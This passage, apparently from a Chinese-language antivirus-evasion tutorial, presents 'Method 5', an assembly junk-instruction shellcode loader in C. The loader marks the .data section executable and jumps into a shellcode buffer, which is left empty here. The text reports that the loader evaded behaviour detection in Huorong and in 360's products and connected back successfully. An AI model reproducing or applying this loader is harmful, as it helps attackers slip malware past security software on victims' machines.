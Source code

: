 ![f97c0c5c955e2a601554b2d33afefa1c](images/2020.03-bypass-03/21.png)

## 2.5 方法5:汇编花指令(VT免杀率12/69)

和方法3比较类似

```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker, "/section:.data,RWE")
unsigned char shellcode[] ="";

void main()
{
	    __asm
    {

        mov eax, offset shellcode
        _emit 0xFF
        _emit 0xE0

    }
}
```

打开杀软进行测试，和方法3一样火绒出现bug，火绒静态可查杀但是行为检测没报警，360杀毒和卫士没有反应，直接上线。
